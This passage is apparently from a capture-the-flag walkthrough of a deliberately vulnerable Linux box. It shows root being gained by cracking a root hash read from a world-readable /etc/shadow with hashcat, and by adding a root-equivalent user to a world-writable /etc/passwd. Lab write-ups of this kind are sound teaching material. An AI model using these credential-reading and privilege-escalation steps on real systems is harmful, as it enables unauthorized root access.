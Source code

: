 ![](walkthroughs/Unpublished/gRoot/groot6.png)

---

### #2 - Cracking the password hash of the root user

The **/etc/shadow** file is readable by everyone exposing the root users password hash:

`ls -al /etc/shadow`

```
-rw-r--r-- 1 root shadow 1131 Jul  4 13:58 /etc/shadow
```

`cat /etc/shadow | grep root`

```
root:$6$f8oZEFNA$UOFFeLjt0qwBJhokX0Jrl6dZyaYpvoCdyCaZasuYYBownvwoTGq7RafXBe/BT7A9xsOuDzUQ/icOqsPOLVdos/:18793:0:99999:7:::
```

Running that through hashcat cracks it pretty quickly:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

![](walkthroughs/Unpublished/gRoot/groot7.png)

I then run `su root` and use the password that was just cracked to login as root:

![](walkthroughs/Unpublished/gRoot/groot8.png)

If you're curious why the **/etc/shadow** file is set to 777 permissions check out **/etc/cron.hourly/rootme** which is a job that runs every hour and changes the permission on the file:

`cat /etc/cron.hourly/rootme`

```
#!/bin/bash 
 chmod 777 /etc/shadow
```

---

### #3 - World writeable /etc/passwd file

Looking at the permissions on **/etc/passwd** show us:

`ls -al /etc/passwd`

```
-rwxr--rw- 1 root root 1723 Jun 16  2021 /etc/passwd
```

I first create a new **sha512crypt** password hash of the word **jason** and then edit the **/etc/passwd** file to add my new jason user to it giving it the same permissions as root.

Once that's done I run `su jason` and login with the password **jason** and we get root:

![](walkthroughs/Unpublished/gRoot/groot9.png)

---